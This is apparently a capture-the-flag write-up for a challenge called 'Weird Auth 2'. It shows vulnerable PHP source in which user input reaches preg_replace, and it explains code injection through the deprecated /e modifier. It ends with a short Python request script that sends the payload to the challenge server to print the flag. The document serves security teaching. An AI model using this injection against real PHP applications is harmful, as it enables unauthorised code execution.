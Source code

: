 # Weird Auth 2 - Writeup

## Problem text

Vampire is keen on hacking wierd authentication schemes. He recently pwned this. The source of submit.php is here

## Source for submit.php

```php
<?php

include("auth.php");

$password = $_POST["password"];
$key = $_POST["key"];

// Pretty print
function p($var)
{
  print_r($var);
}

if(!isset($key))
{
  $key = "1c020611e3b753925ffc8af8745c0556";
}
else
{
  if(!is_string($key) || strlen($key)>5)
  {
    p("Unacceptable key!");
    die;
  }
}

$unlockedPassage = preg_replace($password, $key, $lockedPassage);

if($unlockedPassage === $actualPassage)
{
  p("Congrats! you found the correct password :): ");
  p($f); 
}
else
{
  p("You must enter the correct password to get the flag!<br />");
  p($actualPassage);
}
``` 

There is some *evil* code on the login page to trying to divert you from the real issue on this challenge. The following line is where the problem resides: 
```php
$unlockedPassage = preg_replace($password, $key, $lockedPassage);
```
Fortunately we can controll both the $password and the $key, and even more fortunately with little effort we can find out that the php version in which the challenge is running is 5.5.9.

There is a known 'problem' to the preg_replace function in earlier versions of php due to the /e modifier. This modifier documentation is as follows:

```
Warning
This feature was DEPRECATED in PHP 5.5.0, and REMOVED as of PHP 7.0.0.
If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string. Single quotes, double quotes, backslashes (\) and NULL chars will be escaped by backslashes in substituted backreferences.
```

What this means is that if you use the /e modifier, replacement string ($key - in our case) will be interpreted as php script :) Fortunately, even with the sanity checks of $key (is_string and length <= 5) vampire left us a way to print out the flag.

```php
 p($f)
```

# Solution
To solve this problem we just need a little python script to make the correct request

```python
import requests
import sys

r = requests.post("http://hack.bckdr.in/WIERD-AUTH2/submit.php", data={'password': '//e', 'key': 'p($f)'})
sys.stdout.write(r.text[:75])
```
And voilá!


